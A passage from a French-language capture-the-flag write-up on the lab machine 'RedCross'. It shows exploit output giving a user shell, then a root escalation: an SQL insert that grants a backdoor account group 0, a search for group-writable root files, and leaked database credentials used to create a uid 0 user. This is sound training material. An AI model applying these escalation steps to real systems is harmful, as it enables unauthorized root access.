 ```plain
[+] Triggered bug in target server (plugin timeout)
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Server stopped.

uid=1000(penelope) gid=1000(penelope) groups=1000(penelope)
```

Same Old Story
--------------

On peut se servir du PAM/PostgreSQL pour obtenir notre accès root aussi. On s'accorder d'abord un GID 0 :  

```plain
insert into passwd_table (username, passwd, gid, homedir) values ('devloop', '$1$xyz$b0R51BwJVtqELmbicAObd.', 0, '/');
```

On peut ensuite fouiller les fichiers potentiellement intéressants auquel on n'avait pas accès :  

```bash
find / -group 0 -perm -g+w -type f -not -path '/proc/*' 2> /dev/null
```

Ce dernier est ressorti :  

```plain
-rw-rw---- 1 root root 540 Jun  8  2018 /etc/nss-pgsql-root.conf
```

Avec le contenu suivant :  

```plain
shadowconnectionstring = hostaddr=127.0.0.1 dbname=unix user=unixnssroot password=30jdsklj4d_3 connect_timeout=1
shadowbyname = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE username = $1 ORDER BY lastchange DESC LIMIT 1;
shadow = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE (username,lastchange) IN (SELECT username, MAX(lastchange) FROM shadow_table GROUP BY username);
```

Ces identifiants nous donnent contrôle total sur la table *passwd\_table*, on peut alors créer un nouvel utilisateur avec uid et gid 0 et utiliser *su* pour récupérer les droits sur le système :)  

Under the hood
--------------

Que se trame t-il derrière le compte root ?  

```plain
devloop3@redcross:/root$ ls -la
total 64
drwxr-x---  6 root root  4096 Oct 31 12:33 .
drwxr-xr-x 22 root root  4096 Jun  3  2018 ..
-rw-------  1 root root     0 Oct 31 12:33 .bash_history
-rw-r--r--  1 root root  3380 Jun 10  2018 .bashrc
drwxr-xr-x  3 root root  4096 Jun  6  2018 bin
drwxrwxr-x 11 root root  4096 Jun  7  2018 Haraka-2.8.8
drwxr-xr-x  4 root root  4096 Jun  7  2018 .npm
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rw-r--r--  1 root root    24 Jun 10  2018 .psqlrc
-rw-------  1 root root  1024 Jun  3  2018 .rnd
-rw-------  1 root root    33 Jun  8  2018 root.txt
-rw-r--r--  1 root root    74 Jun  6  2018 .selected_editor
drwx------  4 root root  4096 Jun  3  2018 .thumbnails
-rw-------  1 root root 12885 Oct 31 12:30 .viminfo
```
